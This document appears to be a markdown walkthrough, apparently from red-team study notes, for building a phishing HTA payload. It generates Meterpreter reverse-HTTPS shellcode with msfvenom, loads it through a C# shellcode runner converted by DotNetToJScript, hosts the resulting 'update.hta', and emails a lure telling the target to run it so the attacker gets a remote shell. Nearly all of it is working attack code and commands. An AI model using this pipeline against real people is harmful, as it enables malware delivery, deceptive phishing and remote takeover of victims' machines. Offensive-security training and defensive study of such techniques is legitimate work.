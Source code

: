 # HTA Payload - C# Shellcode Runner and DotNetToJScript

1. Download an up to date version of DotNetToJScript.

2. Configure DotNetToJScript.

Open the solution file inside Visual Studio, and accept to adapt .NET if prompted.

Then inside the property of DotNetToJscript, verify that the .NET version is set to 3.5.

Inside the property of ExampleAssembly, verify that the .NET version is set to 4.5.

3. Modify the TestClass.cs file with your C# Shellcode Runner.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.112 LPORT=80 -f csharp
```

```C#
﻿using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;

[ComVisible(true)]
public class TestClass
{
	[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
	static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

	[DllImport("kernel32.dll")]
	static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

	[DllImport("kernel32.dll")]
	static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
	public TestClass()
	{
		byte[] buf = new byte[784] {
			<SHELLCODE_OF_784_BYTES>};

		int size = buf.Length;

		IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

		Marshal.Copy(buf, 0, addr, size);

		IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

		WaitForSingleObject(hThread, 0xFFFFFFFF);

	}
	public void RunProcess(string path)
    {
		Process.Start(path);
    }
}


```

4. Build both codes to it's release.

5. Copy DotNetToJScript executable release and the "NDesk.Options.dll" to the same location, and add the dll release of ExampleAssembly to it. 

6. Once the three files are inside the same directory, open a terminal at the same location, and run DotNetToJScript to transform the DLL to a jscript file.

```
C:\Dev-Hta> DotNetToJscript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o payload.js
```

7. Create a HTA file with a base structure of HTML code and copy paste the content of payload.js into it.

```hta
<html>
<head>
<script language="JScript">
function setversion() {
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
}
function debug(s) {}
function base64ToStream(b) {
	var enc = new ActiveXObject("System.Text.ASCIIEncoding");
	var length = enc.GetByteCount_2(b);
	var ba = enc.GetBytes_4(b);
	var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
	ba = transform.TransformFinalBlock(ba, 0, length);
	var ms = new ActiveXObject("System.IO.MemoryStream");
	ms.Write(ba, 0, (length / 4) * 3);
	ms.Position = 0;
	return ms;
}

var serialized_obj = "AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"+
"AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+
...
"AAAAAAAAAAAAAAAAAAENAAAABAAAAAkXAAAACQYAAAAJFgAAAAYaAAAAJ1N5c3RlbS5SZWZsZWN0"+
"aW9uLkFzc2VtYmx5IExvYWQoQnl0ZVtdKQgAAAAKCwAA";
var entry_class = 'TestClass';

try {
	setversion();
	var stm = base64ToStream(serialized_obj);
	var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
	var al = new ActiveXObject('System.Collections.ArrayList');
	var d = fmt.Deserialize_2(stm);
	al.Add(undefined);
	var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
	
} catch (e) {
    debug(e.message);
}
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

8. Save it as "update.hta". Copy it into your kali and start a SimpleHTTPServer on port 443.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~/Documents/stuff/try]
└─$ python -m SimpleHTTPServer 443                                                                              1 ⨯
Serving HTTP on 0.0.0.0 port 443 ...
```

9. Start a listener that match with your generated payload and serve the HTA file through mail.


```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ sendEmail -t target@sinhack.com -f target@sinhack.com -s 192.168.x.x -u "Issue - Update your system" -m 'Run the following update to fix the issue http://192.168.x.x:443/update.hta'
May 24 19:41:05 k4l1-l1nux sendEmail[8752]: Email was sent successfully!

```

If the user open our malicious attachment (HTA payload), we should retrieve a shell in our listener.
